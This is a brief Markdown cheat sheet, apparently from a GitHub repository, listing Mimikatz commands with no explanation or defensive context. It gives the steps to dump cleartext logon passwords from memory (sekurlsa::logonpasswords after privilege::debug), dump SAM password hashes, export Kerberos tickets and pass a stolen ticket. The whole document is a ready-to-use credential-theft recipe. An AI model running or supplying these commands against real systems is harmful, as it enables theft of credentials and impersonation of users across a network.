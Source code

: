 # Mimikatz Usage

## Start Mimikatz

powershell

mimikatz.exe
Dump Logon Passwords


privilege::debug
sekurlsa::logonpasswords
Dump Hashes

lsadump::sam
Export Tickets

kerberos::list /export
Pass-the-Ticket

kerberos::ptt ticket.kirbi

